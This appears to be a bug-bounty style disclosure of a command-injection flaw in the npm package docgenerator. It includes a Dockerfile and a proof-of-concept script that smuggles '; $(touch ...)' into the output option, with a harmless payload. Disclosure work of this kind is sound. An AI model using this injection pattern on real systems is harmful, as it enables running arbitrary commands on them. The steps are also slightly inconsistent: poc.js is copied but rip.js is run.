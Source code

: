 @docgenerator is vulnerable to command injection

[Npm Package](https://www.npmjs.com/package/docgenerator)

# Steps To Reproduce
* Create a new Dockerfile container

```
# Dockerfile
FROM node:10-slim
WORKDIR /exploitation
RUN npm i docgenerator
COPY poc.js /exploitation/poc.js
ENTRYPOINT ls -l ; node rip.js ; ls -l 
```
* Create the file rip.js using the following code:

```
var generator = require( 'docgenerator' ),
    path = require( 'path' ),
    fs = require( 'fs' );

// Get all the markdown files in this folder
var files = fs.readdirSync( '.' );

files = files
    .filter( function( file ) {
        return file.substr( -3 ) === '.md';
    })
    .sort();

generator
    .set( 'title', 'Official documentation of tartempion' )
    .set( 'toc', true )
    .set( 'table', true )
    .set( 'files', files )
    .set( 'output', 'documentation.html; $(touch /exploitation/bitcoinMiner.txt)' )
    .generate();
    
 ```
 
  * Build and Run the container with the following commands:
  ```
  $ docker build . -t docsExploit
  $ docker run docsExploit
  ```
